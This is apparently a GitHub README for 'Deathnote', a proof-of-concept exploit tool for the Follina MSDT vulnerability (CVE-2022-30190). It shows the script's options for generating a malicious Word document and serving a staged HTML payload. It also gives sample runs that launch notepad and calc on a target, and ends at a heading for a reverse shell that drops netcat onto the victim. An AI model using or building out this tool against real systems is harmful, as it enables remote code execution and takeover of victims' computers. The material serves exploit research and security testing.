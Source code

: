 # Deathnote
<img src="https://media3.giphy.com/media/xT1XH3NIegS0FBc1K8/giphy.gif"/>

### Proof of Concept of CVE-2022-30190

 `A remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights,`

--------------

Create a "Deathnote" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: Notepad)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./Deathnote.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `notepad.exe`:

```
$ python3 Deathnote.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./Deathnote.doc
[+] serving html payload on :8000
```

Pop `calc.exe`:

```
$ python3 Deathnote.py -c "calc"
```


### Get a reverse shell on port 4444. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**
